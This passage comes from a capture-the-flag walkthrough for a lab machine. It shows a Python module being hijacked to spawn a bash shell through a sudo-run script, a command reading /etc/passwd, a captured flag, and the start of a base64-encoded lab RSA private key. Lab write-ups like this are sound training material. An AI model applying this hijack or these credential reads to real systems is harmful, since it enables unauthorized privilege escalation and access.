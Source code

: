 Let's modify the `cmd.py` file in the following way:

```python
import os

os.system('/bin/bash')

def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

Now, let's run the script:

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```

We can see this:

![](../images/Pasted%20image%2020250326162027.png)

We got a shell as `will`, let's work our way into root from here:

```
will@watcher:/home/will$ cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
```

No note in this point, let's use linpeas again:

![](../images/Pasted%20image%2020250326162839.png)

We can find something called `key.b64` if we decode the contents of it, we can see the following:

```
echo 'LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
```